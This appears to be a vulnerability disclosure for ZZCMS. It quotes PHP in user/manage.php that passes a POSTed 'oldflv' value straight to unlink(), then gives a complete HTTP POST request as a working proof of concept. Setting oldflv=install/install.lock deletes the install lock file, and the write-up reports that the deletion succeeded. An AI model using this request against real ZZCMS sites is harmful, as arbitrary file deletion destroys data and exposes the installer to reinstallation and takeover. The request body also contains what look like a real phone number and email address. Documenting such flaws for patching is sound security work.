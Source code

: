 

## user/manage.php
### Vulnerability：

`if ($oldflv<>$flv){
	$f="../".$oldflv;
	if (file_exists($f)==true){
	unlink($f);
	}
}`

There is unlink($f) to delete any file by controlling the value of $f

### Control $f：
$oldflv = isset($_POST['oldflv'])?$_POST['oldflv']:'';

### Delete install/install.lock:

`POST /user/manage.php?action=modify HTTP/1.1
Host: 127.0.0.1:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://127.0.0.1:85/user/manage.php
Cookie: xxxxxxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 354

somane=%E5%A4%A7%E9%A3%8E&sex=1&email=2132402066%40qq.com&qq=&oldqq=&mobile=&b=0&s=0&province=%E8%AF%B7%E9%80%89%E6%8B%A9%E7%9C%81%E4%BB%BD&city=%E8%AF%B7%E9%80%89%E6%8B%A9%E5%9F%8E%E5%8C%BA&xiancheng=&address=&homepage=&phone=18234070265&fox=&content=%26nbsp%3B&img=%2Fimage%2Fnopic.gif&oldimg=%2Fimage%2Fnopic.gif&flv=&oldflv=&Submit=%E4%BF%AE%E6%94%B9`

Change parameter value:oldflv=install/install.lock

![image](https://github.com/P0rZ9/ZZCMS/blob/master/8.jpg)



delete install/install.lock successfully
![image](https://github.com/P0rZ9/ZZCMS/blob/master/7.jpg)
